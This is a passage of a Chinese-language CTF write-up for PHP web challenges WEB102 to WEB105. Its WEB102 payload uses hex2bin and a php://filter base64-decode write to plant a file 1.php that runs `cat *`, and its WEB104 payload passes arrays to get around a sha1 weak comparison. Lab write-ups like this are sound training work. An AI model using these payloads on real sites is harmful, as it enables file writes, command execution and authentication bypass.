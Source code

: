 file_put_contents()：把一个字符串写入文件，如果文件不存在则创建之。

payload：

（get）v2=115044383959474e6864434171594473&v3=php://filter/write=convert.base64-decode/resource=1.php

（post）

v1=hex2bin

（115044383959474e6864434171594473这一串数字有些巧妙，这是16进制与字符串之间的互转，转换为16进制后的字符串，他其中又带有e也会被当做科学计数法，在这个题目中，结合hex2bin函数，从第3的数字读取转换为字符串正好就是<?=`cat *`;   实在是太妙了）

## WEB103

同102

## WEB104 sha1绕过

![104](img/104.png)

弱比较，数组绕过

payload:?v2[]=1,v1[]=1

## WEB105 考点变量覆盖
